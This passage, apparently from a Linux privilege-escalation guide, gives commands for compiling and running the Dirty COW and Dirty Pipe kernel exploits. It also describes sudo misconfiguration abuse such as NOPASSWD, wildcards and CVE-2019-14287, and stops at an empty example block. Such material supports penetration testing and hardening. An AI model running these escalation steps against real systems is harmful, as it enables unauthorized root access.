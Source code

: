     Command Examples:

        Checking Kernel Version:

        bash

uname -r

Exploiting Dirty COW:

    First, download the exploit code:

    bash

git clone https://github.com/dirtycow/dirtycow.github.io
cd dirtycow.github.io
gcc -pthread dirtycow.c -o dirtycow

Execute the compiled exploit:

bash

    ./dirtycow

Using Dirty Pipe Exploit:

bash

        gcc -o dirtypipe dirtypipe.c
        ./dirtypipe

    Recommendations:
        Regularly update the kernel to the latest version.
        Implement kernel patch management practices.
        Use SELinux or AppArmor for additional security controls.

B. Sudo Configuration Exploits

Description: Sudo allows a permitted user to execute a command as the superuser or another user. Misconfigurations in sudoers can lead to privilege escalation.

    Common Tools and Techniques:
        NOPASSWD Directives: When sudoers file contains NOPASSWD, a user can execute specified commands without entering a password.
        Wildcards and Dangerous Commands: Commands like tar, cp, find, and vim used with sudo can be exploited to gain root access.
        Sudo Versions Vulnerabilities: Certain sudo versions have known vulnerabilities (e.g., CVE-2019-14287) that can be exploited for privilege escalation.

    Command Examples:

        Checking Sudo Permissions:

        bash

sudo -l

Exploiting NOPASSWD with Wildcards:

    Suppose the sudoers file has the following configuration:

    sql

